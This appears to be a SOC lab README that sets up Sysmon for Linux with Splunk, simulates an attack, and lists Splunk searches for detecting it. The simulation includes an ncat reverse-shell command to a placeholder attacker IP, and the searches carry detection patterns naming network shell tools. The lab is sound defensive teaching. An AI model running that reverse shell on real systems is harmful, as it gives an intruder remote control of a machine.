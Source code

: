 # Monitoring and Investigation of Suspicious Process Execution (Linux)

## Inputs Configuration for Splunk

```sh
nano /opt/splunkforwarder/etc/system/local/inputs.conf
```

```sh
[monitor:///var/log/sysmon.log]
index = linux_os_logs
sourcetype = sysmon
disabled = false
```

- Installation of **Sysmon for Linux** with an advanced XML configuration to detect multiple MITRE ATT&CK techniques.

## Install Sysmon for Linux

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

```sh
# Download Microsoft packages repo
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

# Update package list
sudo apt-get update

# Install Sysmon for Linux
sudo apt-get install sysmonforlinux -y
```

## Configure Sysmon with Advanced Rules

#### Create the configuration file

```sh
nano sysmon-config.xml
```

## Paste the advanced XML configuration

- This configuration covers multiple `MITRE ATT&CK` techniques for `process creation, network connections, file creation, persistence, environment injection, and process termination`.

- [Recommended base config: MSTIC Sysmon Config](https://raw.githubusercontent.com/microsoft/MSTIC-Sysmon/main/linux/configs/main.xml)

- [https://github.com/thierno953/SOC_ANALYST/blob/main/Splunk_Ubuntu/sysmon-config.xml](https://github.com/thierno953/SOC_ANALYST/blob/main/Splunk_Ubuntu/sysmon-config.xml)

## Start Sysmon with the configuration

```sh
sudo sysmon -i /etc/sysmon-config.xml
sudo systemctl restart sysmon
sudo systemctl status sysmon

sudo sysmon -c /etc/sysmon-config.xml

sudo journalctl -u sysmon.service -f
```

## Simulate an Attack (Reverse Shell)

#### On attacker machine

```sh
sudo apt install ncat net-tools -y
sudo ncat -lnvp 4444 -k
```

#### On victim machine

```sh
sudo apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Verify the connection

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analysis in Splunk

#### a. All Sysmon logs:

```sh
index="linux_os_logs" process=sysmon
```

![Splunk](/Splunk_Ubuntu/assets/06.png)

#### b. Suspicious command execution:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
(ncat OR netcat OR "bash -i" OR curl OR wget OR "python -c" OR "perl -e" OR "php -r" OR socat OR "/dev/tcp" OR "chmod 777" OR scp)
```

![Splunk](/Splunk_Ubuntu/assets/07.png)

#### c. Command stats by host and time:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)"
| stats count by host, command_executed, _time
| sort - count
```

![Splunk](/Splunk_Ubuntu/assets/08.png)

#### d. Timechart of suspicious commands:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)"
| timechart span=30m count by command_executed
```

![Splunk](/Splunk_Ubuntu/assets/09.png)

## Persistence monitoring (cron/systemd changes):

#### a. Cron and systemd events per host

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| stats count by host, _raw, _time
| sort -_time
```

![Splunk](/Splunk_Ubuntu/assets/10.png)

#### b. Cron/systemd events aggregated hourly

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| bin _time span=1h
| stats count by _time, host
| sort _time
```

![Splunk](/Splunk_Ubuntu/assets/11.png)

#### c. Timechart of cron/systemd events

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| timechart span=1h count by host
```

![Splunk](/Splunk_Ubuntu/assets/12.png)

#### d. Suspicious commands executed

```sh
index="linux_os_logs" process=sysmon
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)\s(?P<command_args>.*)"
| stats count by host, command_executed, command_args, _time
| sort -count
```

![Splunk](/Splunk_Ubuntu/assets/13.png)
